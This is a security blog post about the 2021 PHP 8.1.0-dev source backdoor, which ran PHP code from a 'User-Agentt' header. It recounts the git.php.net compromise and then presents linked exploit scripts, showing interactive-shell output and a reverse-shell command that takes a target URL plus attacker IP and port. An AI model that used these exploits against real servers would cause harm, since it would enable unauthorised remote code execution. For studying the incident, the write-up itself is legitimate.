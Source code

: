 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php81.png "logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
3- Reverse Shell
  

* * * 
## 1- The Story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 

![php-repo.png](php-repo.png "php-repo.png")

However, taking a look at the added line 370 where `zend_eval_string` function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 
![php-git.png](php-git.png "php-git.png")


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.

![php-logs.jpg](php-logs.jpg "php-logs.jpg")

Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

## 2- POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.

It has the number [49933](https://www.exploit-db.com/exploits/49933) on [Exploit DB](https://www.exploit-db.com/exploits/49933).   

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- **Vulnerability references**:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the host url:
http://a.b.c.d

Interactive shell is opened on http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## 3- Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![revshell-script.png](revshell-script.png "revshell-script.png")





Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

